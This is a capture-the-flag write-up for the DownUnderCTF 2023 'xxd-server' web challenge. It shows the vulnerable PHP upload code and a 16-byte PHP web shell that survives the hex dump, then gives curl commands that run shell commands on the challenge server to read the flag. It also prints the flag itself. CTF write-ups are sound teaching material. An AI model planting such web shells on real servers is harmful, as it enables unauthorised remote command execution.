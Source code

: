 # DownUnderCTF 2023

## xxd-server

> I wrote a little app that allows you to hex dump files over the internet.
>
>  Author: hashkitten
>
> [`xxd_server.zip`](xxd_server.zip)

Tags: _web_

## Solution
For this challenge we get the code of a simple php web application:

```php
// Is there an upload?
if (isset($_FILES['file-upload'])) {
        $upload_dir = 'uploads/' . bin2hex(random_bytes(8));
        $upload_path = $upload_dir . '/' . basename($_FILES['file-upload']['name']);
        mkdir($upload_dir);
        $upload_contents = xxd(file_get_contents($_FILES['file-upload']['tmp_name']));
        if (file_put_contents($upload_path, $upload_contents)) {
                $message = 'Your file has been uploaded. Click <a href="' . htmlspecialchars($upload_path) . '">here</a> to view';
        } else {
            $message = 'File upload failed.';
        }
}
```

We can upload files. The files are then placed in the `upload` folder but the file content is written as hex-dump:

```
00000000: 4865 6c6c 6f20 576f 726c 640a            Hello World.    
```

Since we are getting a direct link to the file, we potentially could upload php code and let the server execute the code by providing `php` as file extension. The only problem is, that the hexdump will split the file content into 16 byte blocks. For this we can try to use a [`tiny web shell`](https://github.com/bayufedra/Tiny-PHP-Webshell):

```php
<?=`$_GET[0]`?>
```

With this we can execute commands and get the flag:
```bash
$ curl https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/78fb2c4467d51be9/shell.php?0=ls
00000000: 3c3f 3d60 245f 4745 545b 305d 603f 3e0a  shell.php
.

$ curl https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/78fb2c4467d51be9/shell.php?0=ls%20/
00000000: 3c3f 3d60 245f 4745 545b 305d 603f 3e0a  bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
.

$ curl https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/78fb2c4467d51be9/shell.php?0=cat%20/flag
00000000: 3c3f 3d60 245f 4745 545b 305d 603f 3e0a  DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}.
```

Flag `DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}`